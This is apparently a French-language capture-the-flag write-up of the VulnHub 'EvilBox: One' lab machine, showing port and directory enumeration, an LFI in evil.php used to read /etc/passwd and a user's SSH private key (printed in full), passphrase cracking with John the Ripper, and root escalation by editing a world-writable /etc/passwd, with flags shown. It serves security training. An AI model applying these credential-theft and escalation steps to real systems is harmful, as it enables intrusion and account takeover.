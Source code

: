 ```yaml
---
title: "CTF Evil: One"
date: 2021-08-29
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/evilbox-one,736
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.2** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.26`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir EvilOne && cd EvilOne`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -sV -sT -p- $IP -oN nmap.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

On un serveur **SSH** sur le port **22** et un serveur Apache 2.4.38 sur le port **80**.

On commence par faire un scan du serveur Web avec **Gobuster**.

```bash
$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,css,js,txt,php,zip -o gobuster.txt
/index.html           (Status: 200) [Size: 10701]
/robots.txt           (Status: 200) [Size: 12]   
/secret               (Status: 301) [Size: 313] [--> http://192.168.1.26/secret/]
```

Le dossier "/secret" est vide. Tentons un autre **Gobuster** sur ce dossier.

```bash
$ gobuster dir -u http://$IP/secret -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,css,js,txt,php,zip -o gobuster-secret.txt
/index.html           (Status: 200) [Size: 4]
/evil.php             (Status: 200) [Size: 0]
```

Il y a la présence d'un fichier PHP "evil.php" dans ce dossier. Ce dernier ne retourne rien. Cherchons si un paramètre existe sur cette URL avec l'outil **wfuzz**.

```bash
$ wfuzz -w /usr/share/wordlists/dirb/common.txt --hh 0 'http://192.168.1.26/secret/evil.php?FUZZ=/etc/passwd'
000000947:   200        26 L     38 W       1431 Ch     "command"      
```

Il existe un paramètre, "command". Sur [http://192.168.1.26/secret/evil.php?command=/etc/passwd](http://192.168.1.26/secret/evil.php?command=/etc/passwd), on a bien les infos d'utilisateurs dont celui d'un certain "mowree".

```txt
root:x:0:0:root:/root:/bin/bash
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
```

On est sur une faille de type LFI (Local File Inclusion).

Et sur l'URL [http://192.168.1.26/secret/evil.php?command=/home/mowree/.ssh/id_rsa](http://192.168.1.26/secret/evil.php?command=/home/mowree/.ssh/id_rsa), on tombe bien sur la clef SSH de l'utilisateur.

```txt
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----
```

On récupère ce fichier via **wget**.

`wget http://$IP/secret/evil.php?command=/home/mowree/.ssh/id_rsa -O id_rsa`

Et on n'oublie pas le **chmod** pour plus tard.

`chmod 600 id_rsa`

Désormais, il nous faut retrouver la clef du mot de passe associé.

Téléchargez l'utilitaire "ssh2john.py" avec la commande `wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py` et générez un nouveau fichier `python ssh2john.py id_rsa > id_rsa.hash`.

Afin d'utiliser **John The Ripper**.

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads

Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorn          (id_rsa)
```

**John** a trouvé le mot de passe, "unicorn".

## Pénétration

En posséssion de la clef SSH et du mot de passe associé, on peut donc se connecter au serveur **SSH** sans encombres.

```bash
$ ssh mowree@$IP -i id_rsa
The authenticity of host '192.168.1.26 (192.168.1.26)' can't be established.
ECDSA key fingerprint is SHA256:cd9WCNmPY0i3zsZaPEV0qa7yp5hz8+TVNalFULd5CwM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.26' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
```

On trouve le premier flag dans le fichier "user.txt".

```bash
$ cat user.txt
56Rbp0soobpzWSVzKh9YOvzGLgtPZQ
```

## Escalation

On voit que le fichier "passwd" est modifiable.

```bash
$ ls -la /etc/passwd
-rw-rw-rw- 1 root root 1431 ago 29 12:50 /etc/passwd
```

On génère donc un nouveau mot de passe "unicorn" via **openssl**.

```bash
$ openssl passwd -1 unicorn
$1$U413.MQ6$.ZO/2.l5DWY.2OotSCog61
```

On copie ce mot de passe dans le fichier "passwd" dans la ligne ci-dessous.

```bash
$ nano /etc/passwd
root:$1$U413.MQ6$.ZO/2.l5DWY.2OotSCog61:0:0:root:/root:/bin/bash
```

Une fois le fichier enregistré, on peut se connecter en "root".

```bash
$ su -l root
Contraseña: unicorn
$ id
uid=0(root) gid=0(root) grupos=0(root)
```

Et trouver le flag de ce dernier.

```bash
$ cat /root/root.txt
36QtXfdJWvdC0VavlPIApUbDlqTsBM
```
